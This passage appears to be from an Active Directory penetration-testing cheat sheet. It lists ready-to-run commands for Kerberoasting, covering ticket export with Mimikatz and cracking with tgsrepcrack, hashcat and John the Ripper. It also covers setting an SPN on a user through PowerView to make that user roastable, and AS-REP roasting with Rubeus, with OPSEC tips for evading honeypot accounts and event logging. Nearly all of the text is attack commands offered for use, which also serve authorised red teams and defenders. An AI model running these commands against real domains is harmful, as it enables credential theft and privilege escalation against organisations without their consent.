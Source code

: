 #### Export ticket using Mimikatz
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

#### Crack the ticket
- Crack the password for the serviceaccount
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\ticket.kirbi
```

```
.\hashcat.exe -m 13100 -a 0 <HASH FILE> <WORDLIST>
```

```
.\John.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt hashes.txt
```

### Set SPN
- If we have sufficient permissions (GenericAll/GenericWrite). It is possible to set a SPN and then kerberoast!
#### Enumerate permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```

#### Set SPN for the user
- Must be unique accross the forest. 
- Format ```<STRING>/<STRING>```
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='<ops/whatever1>'}
```

#### Then Kerberoast user

## AS-REP Roasting
#### Enumerating accounts with kerberos preauth disabled
```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

```
./ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

#### Request encrypted AS-REP with rubeus
- OPSEC: Watch out for honeypot accounts, Generates Event 4768 with RC4 encryption and a preauth type of 0, AS-REP roast specific users only!
```
.\rubeus.exe asreproast /format:hashcat
.\rubeus.exe asreproast /format:hashcat /user:<USER>
```

